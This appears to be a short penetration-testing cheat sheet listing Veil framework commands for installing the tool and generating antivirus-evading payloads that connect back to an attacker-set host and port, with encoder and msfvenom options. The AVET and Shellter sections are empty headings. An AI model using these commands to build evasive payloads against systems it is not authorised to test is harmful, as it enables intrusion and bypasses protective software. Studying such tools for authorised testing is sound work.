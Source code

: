 # Antivirus evasion tools

## Veil framework

### Installation

```
apt -y install veil
/usr/share/veil/config/setup.sh --force --silent
./Veil.py --list-tools
```

### Ordnance

#### List payloads/encoders

```
./Veil.py -t Ordnance --list-payloads
./Veil.py -t Ordnance --list-encoders
```

#### Generate payload

```
./Veil.py -t Ordnance --ordnance-payload <type> --ip <lhost> --port <lport> -o <file>
./Veil.py -t Ordnance --ordnance-payload <type> --ip <lhost> --port <lport> -e <encoder> -b <badchars \\00\\0a> -o <file>
```

### Evasion

#### List payloads

```
./Veil.py -t Evasion --list-payloads
```

#### Payload with evasion

```
./Veil.py -t Evasion -p <id> --ordnance-payload <payload> --ip <lhost> --port <lport> -o <file>
./Veil.py -t Evasion -p <id> --msfvenom <payload> --ip <lhost> --port <lport> -o <file>
```



## AVET

## Shellter
